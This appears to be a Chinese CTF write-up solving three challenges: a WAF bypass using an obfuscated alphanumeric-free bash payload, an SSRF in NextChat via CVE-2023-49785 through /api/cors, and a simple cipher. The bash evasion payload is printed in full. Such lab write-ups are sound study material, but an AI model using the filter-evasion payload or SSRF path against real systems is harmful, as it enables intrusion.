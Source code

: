 ### weirdbash_revenge

> 笨蛋小小喵修好了noobwaf，这次你还能拿到flag吗？

编码器在 `/encode` 路由下，执行器在 `/noob` 路由下，简单测试发现执行存在字符限制。

```js
bytemap = ['noob+', 'noob-', 'noob!', 'noob?', 'noob$', 'noob%', 'noob&', 'noob*']

function encode(code) {
  return code.split('').map(c => {
    return c.charCodeAt(0).toString(2).padStart(8, '0')
      .split('').map((b, i) => b == '1' ? bytemap[i] : '').join('')
  }
  ).join('')
}
```

写一个简单的脚本遍历出所有的字符黑名单，发现主要限制了字母和数字。可以使用 bash 的无字母数字脚本获取 flag：`__=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'`（运行时间在 3s 左右）。

### scr1wgpt

> 小小喵开发了一个福来哥生成器并交给了scr1wgpt保管，但是狡猾的小白对你进行了认知过滤。scr1wgpt悄悄告诉你它已经把flag藏在了它的scr1wgpt-web服务里，这次比赛就是你获得flag的关键！
> 
> 题目可能需要亿段时间（4min左右）启动，我知道你很急，但你先别急：）

打开后是一个登录界面，尝试常见的报错注入和联合注入没有发现什么端倪。注意到网站的 favicon 是 [NextChat](https://github.com/ChatGPTNextWeb/ChatGPT-Next-Web)，尝试 /chat 路由进入了主界面。简单查看版本号发现不是最新的版本，此版本存在 ssrf 漏洞：[CVE-2023-49785](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-49785)，可以通过 /api/cors 以服务端身份发送任意流量。

描述中提到“福来哥生成器”，尝试 /generator 路由发现一个可以生成 fake flag 的页面。根据“藏在了它的scr1wgpt-web服务里”，通过 /api/cors/scr1wgpt-web/generator 即可得到 flag。

## Crypto

### 原神(签到)

> 刘哥爱玩原神，flag全小写

搜索原神语对照后即为 flag。